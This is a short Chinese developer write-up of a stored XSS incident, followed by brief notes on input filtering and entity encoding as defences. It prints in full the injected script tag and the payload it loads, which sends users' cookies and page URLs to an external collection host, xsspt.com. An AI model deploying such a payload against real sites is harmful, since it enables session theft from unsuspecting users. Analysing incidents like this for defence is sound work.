 ## xss攻击
### 问题描述
* 早上上班，技术群有人贴出了一个图：用户的输入是一个script脚本，被存在数据库的一个字段中

```ecma script level 4
<script src=https://xsspt.com/E0KlIS></script>北京
```

* 访问连接，可以看到具体的脚本内容如下：

```ecma script level 4
(function(){(new Image()).src='https://xsspt.com/index.php?do=api&id=E0KlIS&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();
if('1'==1){keep=new Image();keep.src='https://xsspt.com/index.php?do=keepsession&id=E0KlIS&url='+escape(document.location)+'&cookie='+escape(document.cookie)};
```

* 它的主要作用是获取用户的cookie，从而可以窃取用户的信息

## 防范
* 大概想了一下修复方法：

### 转换用户的输入
* 也就是将用户的输入进行实体转换，将特殊字符转换成实体字符
* 通常情况下，在开发中我一般是将用户的输入进行转义，这样可以防止一些sql注入
* 但是转义无法解决上方描述的问题，因为展示的时候，还是会将那些字符展示的页面上
* 从而在用户的浏览器端执行注入脚本
* 因此要想解决这个问题，需要限定用户的输入，例如使用select的选择框，替代input输入
* 在后端时，将特殊字符转换成实体字符，因为在业务场景下，一般可以枚举出需要的输入字符集范围，可以使用正则进行替换过滤
* 如果你有什么好办法，欢迎提出issue进行讨论

